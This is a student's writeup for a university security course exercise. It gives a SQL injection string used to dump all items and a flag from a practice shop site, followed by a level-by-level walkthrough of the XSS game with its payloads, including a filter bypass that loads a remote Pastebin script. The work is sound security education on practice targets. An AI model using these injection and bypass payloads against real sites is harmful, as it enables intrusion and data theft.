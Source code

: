 # Crypto II Writeup

Name: Akshay Anil
Section: 0201

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Akshay Anil

## Assignment Writeup

### Part 1 (40 Pts)
Clicking on the items in the shop, I noticed that the url ended in a `?` followed by a key value pair. This was exploitable by replacing the `id=0` with `id='||'1'='1` in 1337bank.money:5000/item?id=0. The replacement closes the input field and then sends `true`. This allows us to view all items in the shop together in one page, including the flag `CMSC389R-{y0u_ar3_th3_SQ1_ninj@}` costing $1337.

### Part 2 (60 Pts)
+ **Level 1** requires an alert to be shown via user input. Entering the javascript code `<script>alert()</script>` in the search box allows us to proceed.
+ The same input as Level 1 did not work for **Level 2**. Here, I used a button to initiate the alert with `<button onclick="alert()">Click me</button>`.
+ **Level 3** can be passed be forced into an error by replacing the frame number with a string. We can use this error to display the alert by appending `onerror='alert()'` afterwards.
+ **Level 4** already has an alert that pops up at a user specified amount of time. We can close the alert and and push our own with `'); alert('`.
+ **Level 5** sets `next` to `confirm` in the URL when the Sign up button is pressed. If we change confirm to `javascript:alert();`, we can move on to Level 6.
+ For **Level 6**, we can see that a javascript file is loaded by looking at the end of the URL. We can exploit this by linking to an alert script online. To do this, I created a paste with Pastebin with just `alert()`. Simply replacing the script location with the paste URL was not enough because http was blocked. I circumvented this by capitalizing https. In the end, the URL was https://xss-game.appspot.com/level6/frame#HTTPS://pastebin.com/raw.php?i=rC4c1ECv
